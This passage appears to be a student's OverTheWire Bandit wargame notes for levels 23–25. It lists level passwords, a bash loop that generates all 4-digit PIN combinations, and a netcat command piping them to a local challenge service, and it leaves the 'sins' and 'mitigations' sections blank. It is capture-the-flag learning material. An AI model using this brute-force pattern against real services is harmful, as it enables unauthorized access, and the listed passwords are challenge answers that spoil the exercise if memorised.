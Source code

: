 Wait about 1-2 minutes 

cat b24pwd





#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
** Mitigations here **



---
### Bandit 24

#### Credentials
Bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

#### How you passed the challenge
Mkdir /tmp/gschintu/bruteforce
Cd /tmp/gschintu/bruteforce
nano brute.sh

#!/bin/bash


password="VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar"

for i in {0000..9999};
do
  echo $password $i

done

chmod +x brute.sh

./brute.sh > brutecomb.txt

nc localhost 30002 <brutecomb.txt

#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
** Mitigations here **



---
### Bandit 25

#### Credentials
bandit25
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
